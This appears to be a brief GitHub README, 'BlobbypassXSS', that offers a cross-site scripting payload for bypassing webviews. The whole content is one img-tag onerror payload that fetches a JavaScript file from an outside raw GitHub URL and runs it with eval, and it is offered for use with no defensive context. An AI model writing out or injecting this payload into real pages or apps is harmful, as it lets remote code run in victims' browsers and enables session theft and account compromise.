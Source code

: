# BlobbypassXSS
## Some XSS that can be used for multiple webview bypasses.
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/CyanHood/SaffronXSS/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```
